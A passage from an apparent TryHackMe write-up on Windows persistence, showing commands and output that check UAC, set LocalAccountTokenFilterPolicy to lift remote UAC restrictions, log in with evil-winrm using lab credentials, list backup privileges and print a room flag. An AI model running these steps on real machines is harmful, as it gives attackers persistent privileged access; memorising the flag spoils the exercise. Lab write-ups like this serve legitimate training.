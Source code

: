 ![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Configuration%20Window%20Open.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Configuration%20Window%20Add%20User.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Configuration%20Window%20Modify%20Permissions%20Zoomed%20In.png)

13. `reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA` from the compromised Windows machine to check if Microsoft's UAC is active on our compromised machine and display the results onto our terminal, which ended up being the case (1 meaning that it's enabled) and therefore preventing us from running any administrative privileges when remotely connecting back to the compromised machine since it strips the user who's remotely connecting to the compromised system from any administrative privileges that they may have by disabling their access to the privileges of the groups that they're a part of that have full or certain administrator privileges, which in this case was the **Backup Operators** group
```PowerShell
C:\>reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    EnableLUA    REG_DWORD    0x1
```
14. `reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1` from the compromised Windows machine to enable the compromised system's LocalAccountTokenFilterPolicy registry policy, which allowed us to disable UAC's remote restrictions and have the **Backup Operators** group's privileges enabled for our compromised user when connecting remotely to the compromised system
```PowerShell
C:\>reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
The operation completed successfully.
```
15. `evil-winrm -i <TARGET IP> -u <USER> -p <PASSWORD>` from our Linux attack machine to remotely connect to the compromised machine as our target user (thmuser2) using WinRM
```Bash
root@ip-10-10-254-192:~# evil-winrm -i 10.10.56.140 -u thmuser2 -p Password321

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\thmuser2\Documents> 
```
16. `whoami /priv` from the command line in our active WinRM session to display all the privileges that the current user that we're running as (thmuser2) has on the compromised Windows machine, along with their descriptions, onto our terminal, which showed that they do indeed have the two privileges that we previous assigned to them from the compromised machine, which allowed us to execute the **flag2.exe** program without any restrictions 
 them 
```Bash
*Evil-WinRM* PS C:\Users\thmuser2\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
17. `C:\flags\flag2.exe` to run the **flag2.exe** program, which ended up displaying this task's flag onto our terminal
```Bash
*Evil-WinRM* PS C:\Users\thmuser2\Documents> C:\flags\flag2.exe
THM{IM_JUST_A_NORMAL_USER}
```